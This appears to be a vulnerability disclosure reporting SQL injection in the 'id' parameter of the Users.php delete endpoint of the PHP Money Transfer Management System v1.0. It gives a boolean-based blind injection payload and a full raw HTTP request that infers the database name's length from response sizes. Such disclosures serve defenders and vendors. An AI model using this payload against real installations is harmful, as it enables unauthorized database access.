 # Money Transfer Management System v1.0 by oretnom23 has SQL injection

**Author：** k0xx

vendors: https://www.sourcecodester.com/php/15015/money-transfer-management-system-send-money-businesses-php-free-source-code.html

Vulnerability File: /mtms/classes/Users.php?f=delete

Vulnerability location: /mtms/classes/Users.php?f=delete,id

[+] Payload: id=2' and length(database()) =7 --+  // Leak place ---> id

Current database name: mtms_db,length is 7

```sql
POST /mtms/classes/Users.php?f=delete HTTP/1.1
Host: 192.168.1.19
Content-Length: 35
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/mtms/admin/?page=user/list
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bnvs2lhahed1884v0nf12nt52s
Connection: close

id=2' and length(database()) =7 --+ // Leak place ---> id
```

When length (database ()) = 7, Content-Length: 19
![image](https://user-images.githubusercontent.com/54017627/164725661-f6d7858f-a5be-47c1-a3f9-27e5a1b3dde2.png)


When length (database ()) = 8, Content-Length: 169
![image](https://user-images.githubusercontent.com/54017627/164725736-ce4aac83-38ca-4759-819a-39a410b5cbed.png)
